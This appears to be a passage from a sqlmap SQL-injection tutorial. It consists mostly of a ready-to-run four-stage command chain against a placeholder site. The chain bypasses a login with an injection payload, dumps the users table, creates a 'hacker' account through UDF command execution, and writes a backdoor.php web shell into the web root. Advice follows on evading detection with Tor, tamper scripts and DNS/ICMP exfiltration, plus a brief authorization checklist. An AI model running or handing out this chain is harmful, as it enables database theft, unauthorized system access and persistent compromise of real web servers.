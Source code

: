 **Complete Command Chain:**
```bash
# Stage 1: Initial access
sqlmap -u "http://target.com/login.php" --method=POST --data="username=admin' -- &password=" --level=3 --risk=2 --technique=BEU --batch

# Stage 2: Database enumeration
sqlmap -u "http://target.com/admin.php?id=1" --cookie="authenticated_session" --dbs --tables --users --dump -D user_db -T users --batch

# Stage 3: Privilege escalation
sqlmap -u "http://target.com/admin.php?id=1" --cookie="authenticated_session" --udf-drop --shared-lib=/var/lib/mysql/udf/lib_mysqludf_sys.so --udf-exec=sys_exec --udf-args='useradd -m hacker' --batch

# Stage 4: Persistence
sqlmap -u "http://target.com/admin.php?id=1" --cookie="authenticated_session" --file-write=./backdoor.php --file-dest=/var/www/html/backdoor.php --batch
```

## ⚠️ Advanced Considerations

### Performance Optimization
- **Parallel Processing**: Use multiple threads for large datasets
- **Caching**: Enable request caching for repeated tests
- **Batch Mode**: Use batch mode for automated scanning
- **Resource Monitoring**: Monitor system resources during long scans

### Evasion Techniques
- **Traffic Obfuscation**: Use Tor, proxies, and delays
- **Payload Variation**: Employ multiple tamper scripts
- **Timing Attacks**: Use time-based techniques for stealth
- **Out-of-Band**: DNS/ICMP exfiltration for restricted environments

### Error Handling
- **Retry Logic**: Configure appropriate retry counts
- **Timeout Management**: Adjust timeouts for slow targets
- **Fallback Techniques**: Have backup techniques ready
- **Logging**: Enable comprehensive logging for troubleshooting

### Legal and Ethical Considerations
- **Authorization**: Ensure explicit permission for all testing
- **Scope Limitations**: Stay within defined testing boundaries
- **Data Handling**: Protect sensitive data discovered during testing
- **Reporting**: Document all findings and methodologies

---

## 🚀 Next Steps

For even more advanced techniques, consider:
- **Custom Tamper Script Development**
- **Machine Learning-Based WAF Bypass**
- **Zero-Day Exploitation**
- **Cloud-Native Application Testing**
- **IoT Device SQL Injection**
- **Blockchain and Cryptocurrency Applications**
